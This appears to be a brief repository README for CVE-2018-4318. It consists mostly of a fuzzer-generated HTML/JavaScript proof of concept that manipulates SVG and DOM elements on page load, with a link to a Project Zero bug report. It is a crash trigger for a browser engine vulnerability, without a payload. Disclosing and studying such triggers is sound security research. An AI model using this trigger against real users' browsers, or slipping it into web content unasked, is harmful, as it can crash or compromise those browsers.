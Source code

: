 # CVE-2018-4318

## PoC

```html
<style>
tref, feMerge, title { inherit; float: right; none; 81em }
</style>
<script>
function jsfuzzer() {
try { var var00006 = htmlvar00002.getSVGDocument(); } catch(e) { }
try { var var00162 = document.head; } catch(e) { }
try { htmlvar00015.setSelectionRange(2,56); } catch(e) { }
try { var00162.replaceWith(htmlvar00022); } catch(e) { }
}
</script>
<body onload=jsfuzzer()>
<input id="htmlvar00015" behavior="alternate" radiogroup="group">
<base id="htmlvar00022" loop="7"></base>
<svg diffuseConstant="1">
<text 1" + 1s">
<set id="svgvar00016" text-rendering="geometricPrecision" />
<tref text-decoration="overline" display="block" href="x">
</tref>
<animateTransform />
Text</text>
```

## Reference

- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1594)
